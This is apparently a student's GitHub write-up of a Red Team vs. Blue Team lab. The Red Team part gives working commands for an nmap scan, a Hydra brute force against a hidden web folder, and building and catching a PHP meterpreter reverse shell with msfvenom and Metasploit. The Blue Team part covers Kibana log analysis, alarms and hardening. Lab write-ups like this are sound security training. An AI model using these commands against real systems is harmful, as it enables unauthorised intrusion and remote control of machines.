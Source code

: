 # Red-Team-vs-Blue-Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both pentester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

Red Team
•	I ran the command ifconfig to find the IP address of the capstone machine, which was the machine we were attacking.

•	I then ran a Nmap command nmap -sV 192.168.1.105 to find the open ports

•	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

•	On the Kali machine, I ran the Hydra tool with the command hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder on it that used brute force into the wordlist and found the password for it.

•	I then logged into the secret folder and found a personal note in it.

•	After reading the personal note, I copied the hashed text that was was left for Ryan’s account and put it on https://crackstation.net/ and cracked it on the website.


•	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php

•	I then uploaded the shell into the webdav directory.

•	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	Msfconsole
	use exploit/multi/handler
	Set payload php/meterpreter/reverse_tcp
	Set LHOST 192.168.1.90
	Set LPORT 80
	Show options
	Run

•	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

•	I then ran the command shell and went back to the root directory and then listed the directories and found the flag.



Blue Team
•	Analysis: Identifying the Port Scan
•	The port scan occurred on April 6 12 am
•	162,551 packets were sent from the machine 192.168.1.90
•	The massive rise in the network traffic indicates that it is a Port Scan

•	Analysis: Finding the Request for the hidden directory
•	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
•	The file that was requested was the secret_folder and it contained the hashed password for Ryan’s account and the web address to login into.

•	Analysis: Uncovering the Brute Force Attack
•	99,596 requests were made during the brute force attack to get into the secret folder directory.
•	99,577 requests were made before the attacker found out the password

•	Analysis: Finding the WebDAV Connection
•	60 requests were made to this directory
•	Shell files were requested



Blue Team Proposed Alarms and Mitigation Strategies

•	Mitigation: Blocking the Port Scan
•	Alarm
•	An alert for port scanning can be set to the threshold of 10
•	System Hardening
•	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesn’t response to ICMP requests.
•	Mitigation: Finding the Request for the Hidden Directory
•	Alarm
•	I would make an alarm when request for secret folders and files are made and set threshold to 1
•	System Hardening
•	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


•	Mitigation: Preventing Brute Force Attacks
•	Alarm
•	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
•	System Hardening
•	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

•	Mitigation: Detecting the WebDAV Connection
•	Alarm
•	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
•	System Hardening
•	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

•	Mitigation: Identifying Reverse Shell Uploads
•	Alarm
•	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
•	System Hardening
•	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.
